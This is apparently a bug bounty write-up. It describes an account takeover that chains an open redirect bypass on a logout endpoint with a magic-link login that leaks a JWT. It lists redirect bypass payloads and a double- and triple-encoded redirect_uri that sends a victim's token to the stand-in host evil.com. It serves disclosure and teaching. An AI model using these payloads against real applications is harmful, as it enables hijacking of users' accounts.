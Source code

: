# Account Takeover Through Open Redirect

## How:

The program had an endpoint that was open to redirection vulnerability. By compining this vulnerability with an authentication functionality I was able to takeover the user
account.

## Open Redirection Vulnerability:

- The application had an endpoint like this <span style="color:red"> ***/logout*** </span> that takes a ***GET*** parameter called ***r***.
- The parameter ***r*** takes an endpoint to be redirected at like this ***/logout?r=/dashboard***.
- So I tried to to put a valid host to see what it does like this ***logout?r=https://program.com/***.
- The application redirected me so, I new that I can play with it to see what else I can get.
- I tried to set the host name to another domain like ***r=https://evil.com/*** and the application responded with ***invalid redirect uri***.
- Knowing this I thought of listing some payloads to try out:<br>
  ***r=https://evil.com/program.com***<br>
  ***r=https://program.com.evil.com***<br>
  ***r=https://program.com@evil.com***<br>
  ***r=https://evil.com@program.com***<br>
  
- The last one was the road to success from this list. However, it's still no redirection because the application will always redirect to itself.
- So at first why we tried these payloads?
  - When I try to find an open redirection I try first to know what url format is allowed or understandable by browsers. So, the meaning of ***https://john@program.com***        is that you are trying to access ***program.com*** as username ***john***. You can try this on firefox or chrome. 
  - So, by knowing this I was thinking what if the developer is using a regex that validates this format and when someone tries to change the value of ***r*** to         ***https://evil.com@program.com*** he validetes it as a valid value because he know that it's the samething. The user will be redirected to program.com at the end too.
  - Another question comes to my head. What is the set of characters allowed before ***@*** I tried to test it on the browser to see what is allowed. And, I have found that the browser when I but an ecnoded value like this ***john%2f*** as username it validtes it and sees it as a valid value. You can try it ***john%2f@google.com***.
  - I tried to set ***r*** to ***https://evil.com%252f@program.com/*** and sent the request. The response successfully redirected me to ***https://evil.com/@program.com/***
  - So, let's break the payload.
    - The application validates this ***john@program.com*** as a valid format.
    - So I tried to inject ***/*** in the payload but doubled encoded like this ***https://evil.com%252f@program.com/***.
    - It's double encoded because If I encoded one time it will reach the web server decoded one time.
    - The payload reaches the code at the other end like this ***https://evil.com%2f@program.com/***.
    - Then the response return the redirection like this ***https://evil.com/@program.com***
    - As you can see the browser will treat ***/@program.com*** as a path to ***https://evil.com*** and the redirection successfully happenes to **evil.com**.
- Another important thing is that the ***/logout*** endpoint sends any get parameter with the new redirection like this **/logout?r=https://evil.com%252f@program.com&heap=heap** the redirection will be like this **https://evil.com/@program.com/?r=https://evil.com%252f@program.com&heap=heap***.


## Exploiting The Login Functionality.

- The applicaiton has a functionality to send you a magic link to login with it. This endpoint takes an ***email*** and ***redirect_uri*** parameters. So, after trying to find a vulnerability with the email I tried to find what I can do with the ***redirect_uri***.
- The ***redirect_uri*** takes a url and the applicaion appends a **JWT** token to it as a GET parameter and sends it to the user.
- So, I tried to play with the hostname of this url to try and find an open redirection but with no clue.
- But, what if can edit the path of the url like this **https://program.com/anypath/anypath** I tried it and sent the request and I looked at my mail I found that the magic link is like this **https://program.com/anypath/anypath?jwt=SOME_VALUE**.
- Okay great, can I compine the this with the open redirection I have found before?. I set the **redirect_uri** to **https://program.com/logout?r=https://evil.com%2525%2532%2566@program.com**.
- And the magic link sent was like this **https://program.com/logout?r=https://evil.com%252f@program.com&jwt=SOME_VALUE**.
- Clicking the link I was redirected to **https://evil.com/?https://evil.com%252f@program.com&jwt=SOME_VALUE**.
- By this, I was able to get the jwt as an attacker and using the jwt I was able to login.
- So the same scenario is done if you want to target another user. You need an email after collecting the jwt you can use it to login to the user's account.


### My Info :

#### Yeswehack  : https://yeswehack.com/user/mekky

#### Intigriti  : https://app.intigriti.com/researcher/profile/mekky

#### Linkedin   : https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/

#### Twitter    : https://twitter.com/Mekky49295157

